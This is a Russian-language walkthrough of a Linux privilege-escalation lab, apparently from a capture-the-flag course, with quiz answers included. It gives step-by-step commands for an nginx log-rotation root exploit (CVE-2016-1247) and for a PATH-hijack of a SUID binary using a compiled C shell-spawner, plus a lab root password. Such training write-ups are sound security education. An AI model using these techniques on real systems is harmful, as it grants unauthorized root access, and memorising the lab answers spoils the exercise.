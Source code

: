 ## Задание 12
Обнаружение

Linux- виртуальная машина

1. В командной строке введите: `dpkg -l | grep nginx`
2. В выводе обратите внимание, что установленная версия nginx ниже 1.6.2-5+deb8u3.

Эксплуатация Linux VM – Терминал 1

1. Для этого эксплойта требуется, чтобы пользователь был www-data. Чтобы сымитировать это, поднимитесь до root, 
   введя: `su root` 
2. Пароль root — password123
3. После повышения до уровня root введите в командной строке: `su -l www-data`
4. В командной строке введите: `/home/user/tools/nginx/nginxed-root.sh /var/log/nginx/error.log`
5. На этом этапе система ожидает выполнения logrotate. Для ускорения процесса это будет смоделировано путем подключения к виртуальной машине Linux через другой терминал.

Linux VM – Терминал 2

1. После входа в систему введите: `su root`
2. Пароль root — password123
3. Как пользователь root, введите следующее: `invoke-rc.d nginx rotate >/dev/null 2>&1`
4. Вернитесь к предыдущему терминалу.

Linux VM – Терминал 1

1. Из выходных данных следует, что эксплойт продолжил выполнение.
2. В командной строке введите: id
### Ответьте на вопросы ниже
Какая CVE эксплуатируется в этой задаче?
```commandline
CVE-2016-1247
```
Какой двоичный файл поддерживает SUID и участвует в атаке?
```commandline
sudo
```

## Задание 13
Обнаружение

Linux- виртуальная машина

1. В командной строке введите: `find / -type f -perm -04000 -ls 2>/dev/null`
2. В выводе обратите внимание на все двоичные файлы SUID.
3. В командной строке введите: `strings /usr/local/bin/suid-env`
4. В выходных данных обратите внимание на функции, используемые двоичным файлом.

Эксплуатация Linux- виртуальная машина

1. В командной строке введите:
`echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c`
2. В командной строке введите: `gcc /tmp/service.c -o /tmp/service`
3. В командной строке введите: `export PATH=/tmp:$PATH`
4. В командной строке введите: `/usr/local/bin/suid-env`
5. В командной строке введите: `id`
### Ответьте на вопросы ниже
Какова последняя строка вывода «`strings /usr/local/bin/suid-env`» ?
```commandline
service apache2 start
```
